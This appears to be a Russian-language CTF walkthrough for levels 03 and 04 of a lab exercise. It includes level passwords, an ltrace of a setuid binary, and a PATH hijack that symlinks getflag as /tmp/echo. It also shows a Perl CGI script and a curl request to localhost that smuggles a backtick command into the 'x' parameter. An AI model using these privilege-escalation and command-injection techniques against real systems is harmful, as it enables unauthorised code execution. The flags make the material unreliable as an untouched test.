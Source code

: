 ```
000000CB  30                                                 0
000000CC  4c                                                 L
000000CD  0d                                                 .
```
* определяем что 7f - это код DEL
* значит код ft_waNDReL0L

## level03 (kooda2puivaav1idi4f57q8iq)

* В директории видим файл level03 это исполняемый файл, выпоним `ltrace ./level03`
получим:
```
__libc_start_main(0x80484a4, 1, 0xbffffd94, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                           = 2003
geteuid()                                                                                           = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                 = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                 = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                              = 0
+++ exited (status 0) +++
```
* Нас тут интересует `system("/usr/bin/env echo Exploit me"Exploit me` - значит что мы можем сюда подложить замену.
* Что значит `/usr/bin/env`? Ответ: https://unix.stackexchange.com/questions/364519/why-is-the-env-directory-called-before-echo. Кратко: с такой конструкцией echo запускается не использованием всроенного компонента; сначала проходим по всем директориям в окружении `PATH` и ищем там нужный нам компонент
* Ищем располжение `which getflag` и делаем символьную ссылку с названием echo
* `ln -s /bin/getflag /tmp/echo`
* `PATH=/tmp:$PATH`


## level04 (qi0maab88jeaj46qoumi7maus)

* В директории видим файл level04.pl
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
* Видим что возможно запущен сервис на 4747 порте
* Можно сделать csrf-атаку и в аргумент x положить `getflag`
Пример: **curl http://localhost:4747?x=\`getflag\`**
